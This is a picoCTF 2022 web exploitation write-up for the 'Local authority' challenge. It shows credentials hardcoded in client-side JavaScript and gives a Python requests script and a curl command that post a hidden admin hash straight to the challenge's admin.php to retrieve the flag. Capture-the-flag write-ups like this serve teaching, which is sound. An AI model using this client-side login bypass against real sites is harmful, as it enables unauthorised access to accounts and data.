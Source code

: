 # picoCTF - 2022
### Web Exploitation
- **Author**: Davide Arcolini
- **E-Mail**: davide.arcolini@studenti.polito.it
- **Date**: 2022-05-17
---

1. [Description](#local-authority)
2. [Script](#script)

#### Local authority

The web page we are presented contains a simple login form. It requires an username and a password. By inserting a simple mock-up credential, such as
```JSON
{
    "username": "test",
    "password": "test"
}
```
we are redirected to a `login.php` file which prompts the text: 
```
Log In Failed
```

Again, by accessing the **developer tools** of the Web Browser in use, it is possible to inspect the Web Page Source, i.e. the `HTML` file which is first loaded. In particular, the `login.php` files pop up and by clicking on it we are redirected to the file content source. Here, we can see that another file is loaded when the login button is clicked:
```HTML
<script src="secure.js"></script>
```

This file contains a function which checks the credential inserted on the form, in the following way:
```js
function checkPassword(username, password)
{
  if( username === 'admin' && password === 'strongPassword098765' )
  {
    return true;
  }
  else
  {
    return false;
  }
}
```
Clearly, this is not the way you check for passwords... We can access the website with the credential disclosed and retrieve the flag.

#### Script
In order to log-in to web page, we need to take a step back. In `login.php` file we can see that the values passed as `username` and `password` are used as parameters of the credential checker we can find in the `secure.js` file: 
```js
loggedIn = checkPassword(window.username, window.password);
```
If the check results in success, the following piece of code is executed: 
```js
if(loggedIn) {
    document.getElementById('msg').innerHTML = "Log In Successful";
    document.getElementById('adminFormHash').value = "2196812e91c29df34f5e217cfd639881";
    document.getElementById('hiddenAdminForm').submit();
}
```
In particular, this piece of code does nothing more than filling itself another form and submit it. The form is the following (which can be find also in the `login.php` file): 
```HTML
<form hidden action="admin.php" method="post" id="hiddenAdminForm">
    <input type="text" name="hash" required id="adminFormHash">
</form>
```

Here we can retrieve three important information: 
- the name of the input parameter we need to pass from our script (i.e. `name="hash"`)
- the method of the input form we need to call from our script (i.e. `method="post"`) 
- the actual value which is passed by the javascript function previously analyzed (i.e. `2196812e91c29df34f5e217cfd639881`).

Now the script is straightforward.
1. In **python**, we first define the useful parameters.
```python
# ------- DATA -------
URL = "http://saturn.picoctf.net:52682/admin.php"
PAYLOAD = {
    "hash": "2196812e91c29df34f5e217cfd639881"
}
```
and then we create a `Session()` object which will use the `post` method along with the `URL` and the `PAYLOAD` data previously defined to retrieve the page source where the flag is found.
```python
# ------- LOG IN -------
with requests.Session() as s:
    result = s.post(URL, data=PAYLOAD)
    print(result.text)
```
Then it is just a matter of parsing the result: 
```python
# ------- PARSING RESULT ------- 
result = result.text.split("<body>")[1]
result = result.split("</body>")[0].strip()
print(result)
```

2. In a **shell** we can exploit the `curl` tool along with the `-X` tag, specifying the `POST` method and the `--data` tag, specifying the payload:
```sh
#!/bin/bash

curl -s -X POST --data hash=2196812e91c29df34f5e217cfd639881 "http://saturn.picoctf.net:52682/admin.php" | grep -oE "picoCTF{.*?}"

# -X 		select the method
# --data	receives in input the value to be passed along with the post request
```